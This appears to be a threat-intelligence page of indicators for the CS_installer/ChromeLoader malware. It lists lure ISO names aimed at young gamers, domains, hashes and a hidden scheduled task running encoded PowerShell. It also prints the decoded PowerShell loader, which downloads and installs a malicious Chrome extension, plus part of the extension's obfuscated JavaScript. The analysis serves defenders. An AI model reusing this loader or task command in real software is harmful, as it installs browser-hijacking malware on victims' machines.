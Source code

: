 # Observed malicious IOCs for the CS_installer Malware

### Date of first occurrence

01-04-2022

### Sample Analysis
https://app.any.run/tasks/bfb74c9f-89d0-4c3b-8c65-233677cdbfc5

### Domains Observed

```
hxxps[://]learnataloukt[.]xyz
hxxps[://]brokenna[.]work
```

### Malicious ISO

The Naming convention of the ISOs appear to be targeting young adults.

```
Universal Chat Spammer.iso
Roblox Muscle Legends Script _ AutoFarm + More ....iso
[UPDATED] Bee Swarm Simulator Script GUI _ Hack....iso
This_Young_Maidenhead_Family_Now_Makes_15800_..._1.iso
The Sims 4 [w_ ALL DLC] Free Download.iso
How To Install Shaders For Minecraft 1.18.1_1....iso => reported by reddit user remuchiiee
```

https://www.virustotal.com/gui/file/fa52844b5b7fcc0192d0822d0099ea52ed1497134a45a2f06670751ef5b33cd3  
https://www.virustotal.com/gui/file/b43767a9b780ba91cc52954aa741be1bddb0905b492e481aea992bca2a0c6a93  

mounted ISO mainly contains:
```
\Device\CdRom0\CS_INSTALLER.EXE
\Device\CdRom0\CS_installer.exe.config
\Device\CdRom0\CS_installer.pdb
\Device\CdRom0\CS_installer.pdb
\Device\CdRom0\Microsoft.Win32.TaskScheduler.dll
```

### CS_installers

https://www.virustotal.com/gui/file/ded20df574b843aaa3c8e977c2040e1498ae17c12924a19868df5b12dee6dfdd  
https://www.virustotal.com/gui/file/5f57a4495b9ab853b9d2ab7d960734645ebe5765e8df3b778d08f86119e1695c  
https://www.virustotal.com/gui/file/187e08fca3ea9edd8340aaf335bd809a9de7a10b2ac14651ba292f478b56d180  

### Reads hostname

```
HKEY_LOCAL_MACHINE\SYSTEM\CONTROLSET001\CONTROL\COMPUTERNAME\ACTIVECOMPUTERNAME
```

### Scheduled Task

```
ChromeLoader

cmd /c start /min "" powershell -ExecutionPolicy Bypass -WindowStyle Hidden -E <base64EncodedPayload>
```

### Snippet of base64 decoded powershell script

```powershell
$extPath = "$($env:LOCALAPPDATA)\chrome"
$confPath = "$extPath\conf.js"
$archiveName = "$($env:LOCALAPPDATA)\archive.zip"
$taskName = "ChromeLoader"
$domain = "SomeMaliciousDomain"

$isOpen = 0
$dd = 0
$ver = 0

(Get-WmiObject Win32_Process -Filter "name='chrome.exe'") | Select-Object CommandLine | ForEach-Object {
	if($_ -Match "load-extension"){
		break
	}

	$isOpen = 1
}

if($isOpen){

	if(-not(Test-Path -Path "$extPath")){

		try{
			wget "https://$domain/archive.zip" -outfile "$archiveName"
		}catch{
			break
		}

		Expand-Archive -LiteralPath "$archiveName" -DestinationPath "$extPath" -Force
		Remove-Item -path "$archiveName" -Force

	}
	else{

		try{
			if (Test-Path -Path "$confPath")
			{
				$conf = Get-Content -Path $confPath
				$conf.Split(";") | ForEach-Object {
					if ($_ -Match "dd")
					{
						$dd = $_.Split('"')[1]
					}elseif ($_ -Match "ExtensionVersion")
					{
						$ver = $_.Split('"')[1]
					}
				}
			}
		}catch{}

		if ($dd -and $ver){


			try{

				$un = wget "https://$domain/un?did=$dd&ver=$ver"

				if($un -Match "$dd"){
					Unregister-ScheduledTask -TaskName "$taskName" -Confirm:$false
					Remove-Item -path "$extPath" -Force -Recurse
				}

			}catch{}

			try{
				wget "https://$domain/archive.zip?did=$dd&ver=$ver" -outfile "$archiveName"
			}
			catch{}

			if (Test-Path -Path "$archiveName"){
				Expand-Archive -LiteralPath "$archiveName" -DestinationPath "$extPath" -Force
				Remove-Item -path "$archiveName" -Force
			}

		}

	}

	try{
		Get-Process chrome | ForEach-Object { $_.CloseMainWindow() | Out-Null}
		start chrome --load-extension="$extPath", --restore-last-session, --noerrdialogs, --disable-session-crashed-bubble
	}catch{}

}
```

### Dropped Extension location

```
C:\users\<Profile>\appdata\local\chrome
```

### Malicious Extension

```
sha256sum archive.zip
561f219a76e61d113ec002ecc4c42335f072be0f2f23e598f835caba294a3f9b  archive.zip

Contents:
background.js  conf.js  manifest.json  options.png
```

### Sample Extension Configuration
```
cat conf.js

let _ExtnensionName = "Options";
let _ExtensionVersion = "4.0";
let _dd = "MzQ1NDYHAQICAwIGDAEAAgEFAgILBwAMSgoABgYDB0gEAgICAgUHAwAASQ==";
let _ExtDom = "https://krestinaful[.]com/";
let _ExtDomNoSchema = "krestinaful[.]com"
```

### Sample Obfuscated Javascript
```js
cat background.js

T1MM.q3 = (function () {
    var v = 2;
    for (; v !== 9;) {
        switch (v) {
        case 2:
            v = typeof globalThis === 'object' ? 1 : 5;
            break;
        case 1:
            return globalThis;
            break;
        case 5:
            var G;
            try {
                var s = 2;
                for (; s !== 6;) {
                    switch (s) {
                    case 2:
                        Object['defineProperty'](Object['prototype'], 'xbHiy', {
                            'get': function () {
                                var J = 2;
                                for (; J !== 1;) {
                                    switch (J) {
                                    case 2:
                                        return this;
                                        break;
                                    }
                                }
                            },
                            'configurable': true
                        });
                        G = xbHiy;
                        s = 5;
                        break;
                    case 5:
                        G['QQr8M'] = G;
                        s = 4;
                        break;
                    case 4:
                        s = typeof QQr8M === 'undefined' ? 3 : 9;
                        break;
                    case 9:
                        delete G['QQr8M'];
                        var N = Object['prototype'];
                        delete N['xbHiy'];
                        s = 6;
                        break;
                    case 3:
                        throw "";
                        s = 9;
                        break;
                    }
                }
            } catch (l) {
                G = window;
            }
            return G;
            break;
        }
    }
})();
T1MM.A1MM = A1MM;
e7(T1MM.q3);
[TRUNCATION..]
```
